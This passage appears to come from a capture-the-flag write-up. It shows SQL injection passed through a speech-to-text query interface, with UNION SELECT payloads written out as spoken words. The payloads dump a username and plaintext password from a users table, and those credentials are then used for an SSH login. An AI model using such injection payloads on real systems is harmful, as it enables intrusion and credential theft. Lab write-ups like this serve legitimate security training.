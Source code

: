     root@kali# ./query_ai.sh "open single quote space union select group underscore concat space open parenthesis table underscore name close parenthesis space from in formation underscore schema period tables comment database"
    Our understanding of your input is : '  union select group_concat  (table_name)  from in4mation under scorched.tables -- -
    Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'scorched.tables -- -'' at line 1
    

I got a bit closer messing with the spelling:

    
    
    root@kali# ./query_ai.sh "open single quote space union select group underscore concat space open parenthesis table underscore name close parenthesis space from in formation underscore skima period tables comment database"
    Our understanding of your input is : '  union select group_concat  (table_name)  from in4mation_scheme a.tables -- -
    Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '.tables -- -'' at line 1
    

But never got it to work.

### Username / Password

I decided to take another tact and guess that there might be a users table,
and I was right! In fact, with some guessing, I could get a user and a
password:

    
    
    root@kali# ./query_ai.sh "open single quote space union select space username space from users comment database"
    Our understanding of your input is : '  union select   username   from users -- -
    Query result : alexa
    root@kali# ./query_ai.sh "open single quote space union select space password space from users comment database"
    Our understanding of your input is : '  union select   password   from users -- -
    Query result : H,Sq9t6}a<)?q93_
    

### SSH

That username / password combination worked for SSH:

    
    
    root@kali# ssh alexa@10.10.10.163
    alexa@10.10.10.163's password:
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.3.7-050307-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Mon Nov 11 19:04:32 UTC 2019
    
      System load:  0.0                Processes:           148
      Usage of /:   28.2% of 19.56GB   Users logged in:     0
      Memory usage: 25%                IP address for eth0: 10.10.10.163
      Swap usage:   0%
      